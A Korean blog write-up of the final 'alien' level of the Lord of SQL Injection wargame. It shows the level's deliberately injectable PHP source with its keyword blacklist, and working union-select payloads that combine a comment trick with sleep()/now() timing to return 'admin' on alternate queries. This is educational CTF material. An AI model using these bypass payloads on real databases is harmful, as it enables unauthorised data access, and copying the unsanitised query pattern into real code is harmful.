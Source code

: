 ```yaml
---
title: "[Lord of SQL Injection] LoS - alien 문제풀이"
date: 2018-09-19
draft: false
category: [wargame]
subcategories: [lord-of-sql-injection]
tags: [Write-up, Lord of SQL Injection]
---
```


와 드디어 `Lord of SQL Injection`을 `All Clear` 했다.
신난다!!
마지막 문제의 이름은 `alien`이다.  

<!--more-->

코드는 다음과 같다.  

```php
-------------------------------------------------------------
query : select id from prob_alien where no=
-------------------------------------------------------------

-------------------------------------------------------------
query2 : select id from prob_alien where no=''
-------------------------------------------------------------

<?php
  include "./config.php";
  login_chk();
  dbconnect();
  if(preg_match('/admin|and|or|if|coalesce|case|_|\.|prob|time/i', $_GET['no'])) exit("No Hack ~_~");
  $query = "select id from prob_alien where no={$_GET[no]}";
  echo "<hr>query : <strong>{$query}</strong><hr><br>";
  $query2 = "select id from prob_alien where no='{$_GET[no]}'";
  echo "<hr>query2 : <strong>{$query2}</strong><hr><br>";
  if($_GET['no']){
    $r = mysql_fetch_array(mysql_query($query));
    if($r['id'] !== "admin") exit("sandbox1");
    $r = mysql_fetch_array(mysql_query($query));
    if($r['id'] === "admin") exit("sandbox2");
    $r = mysql_fetch_array(mysql_query($query2));
    if($r['id'] === "admin") exit("sandbox");
    $r = mysql_fetch_array(mysql_query($query2));
    if($r['id'] === "admin") solve("alien");
  }
  highlight_file(__FILE__);
?>
```

예전에 뭔가 `POXX`에서 비슷한 문제가 있었던 것 같은데 잘 기억이 안난다.
`Write-up`도 어딘가에 있을 것 같은데 못찾겠다.
문제를 풀기 위해서는 총 4개의 `조건문`을 통과해야 한다.  

```bash
1. result !== "admin" : 결과 값이 admin이 아니면 exit => admin 이어야 함 
2. result === "admin" : 결과 값이 admin이면 exit => admin이 아니어야 함  
3. result === "admin" : 결과 값이 admin이면 exit => admin이 아니어야 함  
4. result === "admin" : 결과 값이 admin이면 solve => admin 이어야 함  
```

1번과 2번은 `no`에 `싱글쿼터`가 없지만, 3번과 4번 조건문에서는 `싱글쿼터`가 존재한다.
싱글쿼터가 없을 때와 있을 때를 우회 해 원하는 값을 뽑는 것은 생각보다 쉽다.  

```plain
?no=1 union select 1#' union select '1
```

위와 같이 입력하면 완성되는 `$query`와 `$query2`는 다음과 같다.  

```mysql
$query1 : select id from prob_alien where no=1 union select 1#' union select '1
```

```mysql
$query2 : select id from prob_alien where no='1 union select 1#' union select '1'
```

첫 번째 쿼리의 경우, `#`이 주석 처리 되기 때문에 `#` 이후의 `' union select '1`은 체크하지 않는다.
반면 두 번째 쿼리에서는 `1 union select 1#` 까지가 `no`의 값으로 들어가기 때문에 `#` 이후의 `union select '1'`이 실행된다.
여기까진 쉽게 알아냈는데, 문제는 한 쿼리문으로 어쩔 때는 `admin`이어야 하고 어쩔 때는 `admin`이면 안되는 쿼리문을 만들어야 하는 것이었다.
이것도 주변에 물어봐서 풀 수 있었는데, 바로 `시간`을 활용하면 됬다.  

```plain
?no=1 union select concat(lower(hex(10+(!sleep(1)&&now()%2=1))), 0x646d696e)#' union select concat(lower(hex(9+(!sleep(1)&&now()%2=1))), 0x646d696e)#
```

먼저 첫 번째 쿼리를 살펴보면 다음과 같다.
`!sleep(1)&&now()%2=1` 은 현재 시간에 따라서 `0` 혹은 `1`을 반환 해 준다.
이 후, `hex(10 + 0 OR 1)`이 되는데, 이 때 `hex(10)`은 `A`가, `hex(11)`은 `B`가 된다.
이를 `lower()`를 통해 소문자로 바꾼 후, `concat()`을 통해서 `0x646d696e`와 합친다.
`0x646d696e`는 `dmin`이므로, 최종적인 결과 값은 시간에 따라서 `admin` 혹은 `bdmin`이 될 것이다.

`sleep(1)`을 걸어서 첫 번째가 `0`이라면 바로 다음 두번째로 쿼리를 실행할 때는 `1`이 나오도록 했다.
두 번째 쿼리에서는 `hex(10+`가 아니라 `hex(9+`를 했다.
나와야 하는 결과 값을 살펴보면 순서대로 `hex(10) -> hex(11) -> hex(11) -> hex(10)`이다.
하지만 계속해서 `sleep(1)`을 실행하게 되면 무조건 `hex(10) -> hex(11) -> hex(10) -> hex(11)` 혹은 `hex(11) -> hex(10) -> hex(11) -> hex(10)`이 나오게 된다.
여기서 `hex(10)`만 제대로 나오면 되고 `hex(11)`은 다른 값이 나와도 상관 없으므로, 두 번째 쿼리에서 `hex(9+`로 바꿔 주어 `hex(10) -> hex(11) -> hex(9) -> hex(10)`이 나오게 했다.
그러면 나오는 결과는 순서대로 `admin -> bdmin -> 9dmin -> admin`이 되어 문제를 풀 수 있다.
다만, 처음 쿼리를 실행할 때 `admin`이 나올 수 있는 시간이어야 하므로 바로 한 번에 문제가 풀리지는 않는다.  

```php
--------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------
query : select id from prob_alien where no=1 union select concat(lower(hex(10+(!sleep(1)&&now()%2=1))), 0x646d696e)#' union select concat(lower(hex(9+(!sleep(1)&&now()%2=1))), 0x646d696e)#
--------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------

--------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------
query2 : select id from prob_alien where no='1 union select concat(lower(hex(10+(!sleep(1)&&now()%2=1))), 0x646d696e)#' union select concat(lower(hex(9+(!sleep(1)&&now()%2=1))), 0x646d696e)#'
--------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------

ALIEN Clear!
<?php
  include "./config.php";
  login_chk();
  dbconnect();
  if(preg_match('/admin|and|or|if|coalesce|case|_|\.|prob|time/i', $_GET['no'])) exit("No Hack ~_~");
  $query = "select id from prob_alien where no={$_GET[no]}";
  echo "<hr>query : <strong>{$query}</strong><hr><br>";
  $query2 = "select id from prob_alien where no='{$_GET[no]}'";
  echo "<hr>query2 : <strong>{$query2}</strong><hr><br>";
  if($_GET['no']){
    $r = mysql_fetch_array(mysql_query($query));
    if($r['id'] !== "admin") exit("sandbox1");
    $r = mysql_fetch_array(mysql_query($query));
    if($r['id'] === "admin") exit("sandbox2");
    $r = mysql_fetch_array(mysql_query($query2));
    if($r['id'] === "admin") exit("sandbox");
    $r = mysql_fetch_array(mysql_query($query2));
    if($r['id'] === "admin") solve("alien");
  }
  highlight_file(__FILE__);
?>
```

---

```plain
ALIEN Clear!!
```

드디어 `Lord of SQL Injection`을 `ALL Clear` 했다!
아 너무 뿌듯하다 ㅠㅠ
모르는게 너무 많아서 주변에 많이 물어보면서 풀었는데, 이 부분이 좀 아쉽다.
더 열심히 공부해서 아무한테도 안물어보고 문제를 슝슝 풀 수 있게 되었으면 좋겠다!
이제 풀다 말았던 `pwnable.kr`을 다시 풀어야 겠다. ㅎㅎ

---

```plain
Lord of SQL Injection All Clear!!  
```

![](/images/los/alien/alien_01.png)
